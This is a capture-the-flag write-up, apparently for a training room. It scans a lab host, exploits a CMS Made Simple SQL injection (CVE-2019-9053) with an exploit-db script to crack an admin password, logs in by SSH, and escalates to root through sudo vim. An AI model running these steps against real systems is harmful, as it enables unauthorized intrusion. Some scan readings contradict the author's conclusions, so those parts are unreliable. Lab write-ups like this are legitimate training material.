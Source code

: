 # Solution

Let's start by enumerating the open ports through nmap

```bash
$ nmap -A <url>

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-07 08:17 EST
Nmap scan report for 10.10.107.172
Host is up (0.27s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.3.159
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.62 seconds
```

Nmap shows that we have 2 tcp ports open. Port 80 for http, and port 2222 for ssh. From the assignment we see that there should be services running on port 1000. Hence let's check for UDP connections in port 1000.

```
$ sudo nmap -sU -p 1000 <url>

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-07 08:33 EST

PORT     STATE    SERVICE VERSION
1000/tcp filtered cadlock
```

```
$ sudo nmap -sT -p 1000 <url>

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-07 08:35 EST
Nmap scan report for 10.10.107.172
Host is up (0.38s latency).

PORT     STATE    SERVICE VERSION
1000/tcp filtered cadlock
```

Now we can answer the following questions
```
How many services are running under port 1000?  2

What is running on the higher port?             ssh
```

Our next assignment requires us to search for an exploit. From the nmap scan, it shows that we have a web server running on port 80. Let's check that out. From first glance, it seems to just be a default Apache file. Let's use `dirbuster` to find any secret folders or files that we can access.

```bash
$ dirbuster &
```

Dirbuster shows us an interesting folder called `/simple`. Access `/simple/index.php` we see that it's actually using a CMS called `CMS Made Simple`. The `index.php` page has a link to an admin page.

So let's try SQL injections.

```bash
$ sqlmap -u http://10.10.107.172/simple/admin/login.php --forms --crawl=2sqlmap
```

Sadly running through all the prompts and going through all the forms doesn't show any promising SQL injections.

What we can do now, is check if there's an actual vulnerability with `CMS Made Simple` using `searchsploit`

```bash
searchsploit CMS Made Simple

----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)                               | php/remote/46627.rb
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                                                          | php/webapps/26298.txt
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                                                          | php/webapps/26217.html
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                                                       | php/webapps/29272.txt
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                                           | php/webapps/29941.txt
CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities                                          | php/webapps/32668.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                                                | php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                                                                      | php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                                             | php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                                                 | php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion                                                                     | php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure                                                                    | php/webapps/9407.txt
CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting                                              | php/webapps/33643.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                                                 | php/webapps/11424.txt
CMS Made Simple 1.7 - Cross-Site Request Forgery                                                                 | php/webapps/12009.html
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                                                    | php/webapps/34299.py
CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery                                          | php/webapps/34068.html
CMS Made Simple 2.1.6 - 'cntnt01detailtemplate' Server-Side Template Injection                                   | php/webapps/48944.py
CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                                                 | php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution                                                                    | php/webapps/44192.txt
CMS Made Simple 2.2.14 - Arbitrary File Upload (Authenticated)                                                   | php/webapps/48779.py
CMS Made Simple 2.2.14 - Authenticated Arbitrary File Upload                                                     | php/webapps/48742.txt
CMS Made Simple 2.2.14 - Persistent Cross-Site Scripting (Authenticated)                                         | php/webapps/48851.txt
CMS Made Simple 2.2.15 - 'title' Cross-Site Scripting (XSS)                                                      | php/webapps/49793.txt
CMS Made Simple 2.2.15 - RCE (Authenticated)                                                                     | php/webapps/49345.txt
CMS Made Simple 2.2.15 - Stored Cross-Site Scripting via SVG File Upload (Authenticated)                         | php/webapps/49199.txt
CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                                                    | php/webapps/44976.py
CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                                                    | php/webapps/45793.py
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                                                  | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                                                                         | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                                                 | php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                                            | php/webapps/34298.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload                                   | php/webapps/46546.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Paper Title                                                                                                     |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple v2.2.13 - Paper                                                                                  | docs/english/49947-cms-made-simp
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

There are lots of potential exploits, let's try to narrow it down. From the webpage, we see that it's actually using version `2.2.8`. The only CVE in our list is `CMS Made Simple < 2.2.10 - SQL Injection`. Looks like we're right on the money! Just that we we're looking at it from a wrong angle.

A simple google search leads us to it's CVE, `CVE-2019-9053`.

```
What's the CVE you're using against the application?    CVE-2019-9053
```

Now let's run the script.

```
# Copy the script into our folder
$ cp /usr/share/exploitdb/exploits/php/webapps/46635.py ~/meta

# Create a python environment
$ pyenv virtualenv 2.7.18 meta

# Activate the environment
$ pyenv activate meta

# Install the required dependencies
$ pip install termcolor requests

# Run the script
$ python 46635.py -u http://10.10.107.172/simple --crack -w ../tools/wordlists/rockyou.txt
```

After a few minutes, we get the following values.

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

SSH into the account with username `mitch` and password `secret` at port `2222`

```bash
$ ssh mitch@<url> -p 2222

$ ls
user.txt

$ cat user.txt
G00d j0b, keep up!
```

Our next task is to get root privileges. From the user's directory, we see that there's a .viminfo. Hence thinking that it may be a hint, we can try `sudo vim`.

And success, we are able to run vim without the prompt for a superuser password. Vim like some other text editors in linux allows users to run shell commands. We can spawn an interactive shell using `!/bin/bash`. Then all we have to do is explore the root directory, and print the flag. 

To summarize, here are the final steps:
```
# Try running vim as sudo
sudo vim

# Inside of vim, run the following command
:!/bin/bash

# Profit, we're in
root@Machine:~# 

# Explore the root directory
root@Machine:~# ls -alt /root
total 28
drwx------  4 root root 4096 dec  7 14:53 .
drwxr-xr-x 23 root root 4096 aug 19  2019 ..
drwx------  2 root root 4096 aug 17  2019 .cache
drwxr-xr-x  2 root root 4096 aug 17  2019 .nano
-rw-r--r--  1 root root   24 aug 17  2019 root.txt
-rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 aug 17  2015 .profile

# Extra Profit!! Our flag is shown below.
root@Machine:~# cat /root/root.txt
W3ll d0n3. You made it!
```

